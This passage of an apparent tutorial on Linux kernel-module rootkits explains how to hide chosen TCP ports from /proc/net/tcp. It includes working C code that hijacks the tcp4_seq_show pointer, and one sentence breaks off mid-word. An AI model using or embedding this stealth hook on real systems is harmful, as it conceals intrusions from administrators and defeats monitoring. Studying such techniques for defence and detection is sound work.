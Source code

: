 ```c
```

​	This reasonable to assume that the field *skc_num* stores the local port of a tcp connection. It is exactly what we want. Now we have all we need.

### implementation

​	So the idea here is simple: we hook the *tcp4_seq_show* function, cast the second argument *v* to *sock*, check it's *skc_num* to find out if we want to hide it. If so, directly return 0. Otherwise, we forward the request to the real *tcp4_seq_show*. 

​	The implementation is as follows

```c
static int hack_tcp4_seq_show(struct seq_file *seq, void* v){
    struct sock* sk = v;
    if(v!=SEQ_START_TOKEN && is_port_cloaked(sk->sk_num)){
        return 0;
    }
    return real_tcp4_seq_show(seq, v);
}

// hijack the seq_op->show pointer
static int hook_tcp4_seq_show(void){
    struct file* fp;
    struct tcp_seq_afinfo* afinfo;
    fp = filp_open("/proc/net/tcp", O_RDONLY, 0);
    afinfo = (struct tcp_seq_afinfo*)PDE_DATA(fp->f_path.dentry->d_inode);
    real_tcp4_seq_show = afinfo->seq_ops.show;
    afinfo->seq_ops.show = hack_tcp4_seq_show;
    filp_close(fp, 0);
    return 1;
}

```

​	There are altenative ways to hijack the seq_op->show pointer, the method here is a rather lightweight one. The *proc_dir_entry->data* for */proc/net/tcp* is a pointer to *tcp4_seq_afinfo*, which holds the pointer to *seq_op->show* ----- the funtion we will hijack. We have talked about it earlier. The macro *PDE_DATA* takes an *inode* pointer to a /proc file and returns us the value of its *data* field. So we open the */proc/net/tcp*, get its *tcp_seq_afinfo* struct and overwrite its *show* field with our function and it's done.

​	Like the part in file hide there are also some auxilary functions and data structs to help with the port hiding, plus the unhook operation. I will skip them this time.

​	This part of implementation and mechanisms are strongly related to the kernel sequence file mechanisms. It is an interface to help with the implementation of /proc files, and there is a documentation file in Linux source code names */Documentation/filesystems/seq_files.txt* which provides a simple explanation. I will cover it in anot



# Reference

1. [(nearly) Complete Linux Loadable Kernel Modules](http://www.ouah.org/LKM_HACKING.html#I.3.)
2. [The Linux Kernel Module Programming Guide](https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html#AEN40)
3. [Linux kernel source code](https://elixir.bootlin.com/linux/v4.15/source)

